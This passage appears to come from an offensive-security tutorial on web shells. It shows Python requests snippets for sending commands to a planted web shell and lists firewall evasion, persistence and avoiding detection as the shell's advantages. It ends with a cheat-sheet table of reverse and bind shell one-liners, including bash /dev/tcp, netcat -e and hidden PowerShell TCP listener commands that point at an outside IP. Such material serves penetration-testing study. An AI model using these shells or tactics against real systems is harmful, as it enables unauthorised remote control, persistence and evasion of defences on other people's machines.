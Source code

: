 ```
    response = requests.post(url, data={"cmd": cmd})
    ```
    </pre>
    
- **Handling Different Response Formats**: If the response from the server contains HTML or other unnecessary formatting, you can clean it up before printing the output. For example, using BeautifulSoup to strip tags:
    
    <pre>
    ```
    from bs4 import BeautifulSoup
    response = requests.get(url, params={"cmd": cmd})
    soup = BeautifulSoup(response.text, 'html.parser')
    print(soup.get_text())
    ```
    </pre>
    

---

### **Pros and Cons of Using a Web Shell**

### **Pros**:

- **Firewall Evasion**: Since web shells use HTTP or HTTPS, they bypass most firewall rules that block traditional shells.
- **Persistence**: The web shell remains functional even after the target system is rebooted unless the web server or files are changed.
- **No New Ports Opened**: Operates over existing web traffic ports (e.g., 80 or 443), reducing detection chances.

### **Cons**:

- **Lack of Interactivity**: Web shells are not as interactive as reverse or bind shells, requiring multiple requests for each command.
- **Slower Operation**: Each command needs a separate HTTP request, adding overhead.
- **Limited Control**: The range of commands and capabilities can be limited depending on the permissions of the web server user (usually `www-data` on Linux).

---

### **Summary of Key Commands**

|Shell Type|Command (Linux)|Command (Windows)|
|---|---|---|
|Reverse Bash|`bash -i >& /dev/tcp/10.10.10.10/1234 0>&1`||
|Reverse Netcat|`nc -e /bin/bash 10.10.10.10 1234`||
|Reverse PowerShell||`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient..."`|
|Bind Bash|`nc -lvnp 1234 -e /bin/bash`||
|Bind PowerShell||`powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener =...`|
